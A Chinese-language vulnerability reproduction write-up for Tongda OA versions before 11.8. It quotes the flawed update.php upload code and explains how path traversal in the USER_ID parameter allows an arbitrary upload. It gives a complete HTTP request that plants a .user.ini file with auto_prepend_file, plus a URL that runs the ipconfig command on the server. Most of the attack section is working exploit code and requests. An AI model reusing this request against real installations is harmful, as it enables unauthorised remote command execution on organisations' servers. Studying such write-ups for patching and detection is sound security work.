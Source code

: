 # 通达OA v11.8 update.php 后台文件包含命令执行漏洞

## 漏洞描述

通达OA v11.8以下存在文件上传接口，可上传 .user.ini 文件包含有PHP语句的文件导致命令执行

## 漏洞影响

<a-checkbox checked>通达OA < v11.8</a-checkbox></br>

## 漏洞复现

这里使用的环境为通达 v11.6版本

出现漏洞的文件为 `webroot/general/hr/manage/staff_info/update.php`

```php
<?php

include_once "inc/auth.inc.php";
include_once "inc/utility_all.php";
include_once "inc/utility_file.php";
include_once "inc/utility_field.php";
include_once "inc/utility_cache.php";
include_once "general/system/log/annual_leave_log.php";
if (strstr($BYNAME, "/") || strstr($BYNAME, "\\") || strstr($BYNAME, "..")) {
	Message(_("错误"), _("OA用户名包含非法字符！"));
	exit();
}

include_once "inc/header.inc.php";
echo "\r\n<body class=\"bodycolor\">\r\n";
echo "\r\n<body class=\"bodycolor\">\r\n";
$PHOTO_NAME0 = $_FILES["ATTACHMENT"]["name"];
$ATTACHMENT = $_FILES["ATTACHMENT"]["tmp_name"];

if ($PHOTO_NAME0 != "") {
	$FULL_PATH = MYOA_ATTACH_PATH . "hrms_pic";

	if (!file_exists($FULL_PATH)) {
		@mkdir($FULL_PATH, 448);
	}

	$PHOTO_NAME = $USER_ID . substr($PHOTO_NAME0, strrpos($PHOTO_NAME0, "."));
	$FILENAME = MYOA_ATTACH_PATH . "hrms_pic/" . $PHOTO_NAME;
	td_copy($ATTACHMENT, $FILENAME);

	if (file_exists($ATTACHMENT)) {
		unlink($ATTACHMENT);
	}

	if (!file_exists($FILENAME)) {
		Message(_("附件上传失败"), _("原因：附件文件为空或文件名太长，或附件大于30兆字节，或文件路径不存在！"));
		Button_Back();
		exit();
	}
}
```

![img](/assets/PeiQi-Wiki/img/tongdaoa-30.png)

在这里参数 `$USER_ID` 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 `../../../` 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 `.user.ini` 文件来包含其他文件，这里是可以用于包含PHP语句的文件的，所以我们上传文件内容为

```plain
auto_prepend_file=ttt.log
```

请求包为

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="ttt.ini"
Content-Type: text/plain

auto_prepend_file=ttt.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 `USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user` 为上传路径

这里我们简单知道了上传方式，那我们就通过 `.user.ini文件` 包含恶意文件

![img](/assets/PeiQi-Wiki/img/tongdaoa-38.png)



现在已经成功上传了恶意文件

```
 /general/reportshop/workshop/report/attachment-remark/form.inc.php?ttt=ipconfig 
```





![img](/assets/PeiQi-Wiki/img/tongdaoa-39.png)



<a-checkbox checked>在 v11.6中 上传的位置并没有限定所以可以上传在方便访问的目录(不需要登录)</a-checkbox></br>

<a-checkbox checked>而 v11.8中则有目录名的限制需要目录带有 webroot 和 attachment</a-checkbox></br>



![img](/assets/PeiQi-Wiki/img/tongdaoa-35.png)



![img](/assets/PeiQi-Wiki/img/tongdaoa-34.png)